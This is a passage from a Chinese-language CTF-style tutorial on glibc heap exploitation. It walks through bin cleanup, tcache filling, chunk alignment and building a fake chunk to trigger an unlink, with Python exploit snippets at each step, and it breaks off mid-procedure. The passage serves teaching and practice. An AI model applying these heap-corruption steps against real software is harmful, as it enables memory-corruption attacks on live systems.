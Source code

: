 那么，为了我们利用的方便，我们先对这些bin进行清理。

```
# Clean Bins
for i in range(7 + 11):
    creat(sh, 0x18 , 'Clean' + 'n')
for i in range(7 + 3):
    creat(sh, 0x38 , 'Clean' + 'n')
for i in range(7 + 9):
    creat(sh, 0x68 , 'Clean' + 'n')
for i in range(7 + 2):
    creat(sh, 0x78 , 'Clean' + 'n')
for i in range(5):
    creat(sh, 0xC8 , 'Clean' + 'n')
for i in range(6):
    creat(sh, 0xE8 , 'Clean' + 'n')
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-140544.png)

#### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E5%A0%86%E5%B8%83%E5%B1%80%EF%BC%8C%E8%A7%A6%E5%8F%91Unlink"></a>构造堆布局，触发Unlink
<li>首先申请`7`个`0x28`大小的`chunk`用于稍后填满`Tcache`。
<pre><code class="lang-python hljs">for i in range(7):
    creat(sh, 0x28 , 'chunk_' + str(64+i) + 'n')
</code></pre>
</li>
<li>为了我们之后堆布局的方便，我们需要将接下来布局的`chunk`推到`0x?????????????000`的地址上，那么我们首先申请一个探测`Chunk`。
<pre><code class="lang-python hljs">creat(sh, 0x18  , 'Test' + 'n')
</code></pre>
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-11-140621.png)
那么我们需要在此处申请一个`0xBF8`的填充`Chunk`。
<pre><code class="lang-python hljs">creat(sh, 0xBF8  , 'pad' + 'n')
</code></pre>
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-11-141358.png)
</li>
<li>然后申请一个大小为`0x5E0`的`Chunk`和一个`0x18`大小的`Chunk`，这个`0x18`大小的`Chunk`是为了稍后释放`0x5E0`的`Chunk`时防止其被`Top Chunk`所吞并，释放大小为`0x5E0`的`Chunk`，现在，`Unsorted bin`中有一个`0x5F0`大小的`Chunk`，然后申请一个`0x618`大小的`Chunk`，`Unsorted bin`中的`0x5F0`大小的`Chunk`将会被加入`Large bin`。
<pre><code class="lang-python hljs">creat(sh, 0x5E0 , 'chunk_72' + 'n') 
creat(sh, 0x18  , 'chunk_73' + 'n')
delete(sh,72)
creat(sh, 0x618 , 'chunk_72' + 'n')
</code></pre>
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-11-141826.png)
</li>
<li>接下来，申请一个`0x28`大小的`Chunk 0`，内部布置成一个`fake chunk`，`fake chunk`位于`Chunk 0 + 0x10`
<pre><code class="lang-python hljs">creat(sh, 0x28  , 'a' * 8 + p64(0xe1) + p8(0x90))
</code></pre>
⚠️：此时我们是从`Large_bin`中分割了`0x28`大小的内存，于是此`Chunk`中必定残留了我们所需要的`fd_nextsize`信息。分割剩余的`0x5C0`大小的`Chunk`将会被被加入`Unsorted bin`中。
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-11-141954.png)
</li>
<li>接下来我们再申请`4`个`0x28`大小的`Chunk`用于后续构造，这里将它们命名成`Chunk 1 ~ Chunk 4`。